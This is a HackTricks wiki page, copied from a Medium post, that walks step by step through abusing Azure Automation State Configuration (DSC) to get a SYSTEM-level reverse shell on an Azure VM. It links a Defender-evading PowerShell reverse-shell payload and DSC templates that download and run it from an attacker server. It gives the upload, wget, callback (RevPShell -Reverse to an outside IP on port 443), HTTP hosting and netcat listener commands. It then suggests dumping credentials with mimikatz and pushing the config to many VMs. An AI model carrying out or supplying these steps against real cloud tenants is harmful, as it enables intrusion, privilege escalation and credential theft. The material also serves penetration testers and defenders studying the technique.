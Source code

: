# Az - State Configuration RCE

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

**This post was copied from** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)****

### Remote Server (C2) Infrastructure Preparation <a href="#f0fa" id="f0fa"></a>

I will be hosting a stripped-down version of the Nishang Invoke-PowerShellTcp.ps1 payload from the remote server “40.84.7.74”, which is the Kali box. The payload name will be “RevPS.ps1”. To prevent the Nishang script getting deleted by Windows Defender for any reason (maybe you’d rather drop the file to disk) I have a lightweight version here that you can use which will bypass Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). This will be hosted by a simple Python Simple Server on the Kali box.

### Step 1 — Create Files <a href="#89de" id="89de"></a>

We’ll need to create another DSC configuration file. A template can be downloaded here: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). This config file will use the same file-write function that we previously used. This time, the contents include code to download and execute a payload from our remote server. Also, we’re using a scheduled-task function available from the _ComputerManagementDsc_ module. The scheduled-task function will be the key role in execution and providing us with SYSTEM privileges later on.

We’ll also download a script which will be used to publish our configuration to the VM. This is located here: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

These files will serve as a template. **You’ll need to fill in the variable names and parameters with what you’re using**. This includes the resource names, file paths, and the external server/payload names that you’re using. Please refer to the comments in the code.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Step 2 — Zip Configuration File <a href="#c2c2" id="c2c2"></a>

With our two files created, we’ll zip the **‘reverse\_shell\_config.ps1’** file so it can be sent to the Storage Account

```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Step 3 — Set Storage Context & Upload <a href="#bed9" id="bed9"></a>

Again, we’ll setup the context of our Storage Account which I’ve already done. I already have a container named ‘**azure-pentes**t’ so this is where I’ll be publishing mine:

```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

<figure><img src="../../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### Step 4 — Prep Kali Box <a href="#20fb" id="20fb"></a>

In our Kali box, we can simply _wget_ our PowerShell payload. The raw reverse-shell script is located here: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).

```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

We need to edit the reverse-shell script by adding our parameters in, so the Windows VM knows where to connect to once it’s executed. In my case I add following:

```
RevPShell -Reverse 40.84.7.73 443
```

<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Step 5 — Publish Configuration File <a href="#9ad6" id="9ad6"></a>

Now we’ll run our configuration file. I have mine setup to be published to the Desktop for a better visual, however it can be published just about anywhere. After a couple of minutes, we’ll see that the reverse-shell script has been published!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Step 6 — Host Payload and Setup Listener <a href="#c55f" id="c55f"></a>

Once we publish the configuration, we can concurrently start a Python SimpleHTTPServer over port 80 to host the payload, along with a netcat listener in order to catch the connection:

```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```

We see that the scheduled task has run and our payload was retrieved and executed in memory with **SYSTEM** level privileges!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Wrapping Up <a href="#1ec2" id="1ec2"></a>

This now opens the door for many possibilities. Since we have a shell running as **SYSTEM,** we can dump credentials with mimikatz (potentially risky depending on how mature the EDR is for cloud resources). If you dump creds , there's a good chance that these can be reused elsewhere across different resources. Lastly, a big takeaway is that instead of limiting this to one VM, you now have the ability to potentially apply this configuration across multiple VM’s.

On that note, this concludes our Azure Automation DSC adventures! I hope you had fun, learned a lot and continue to expand with your own creativity.

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
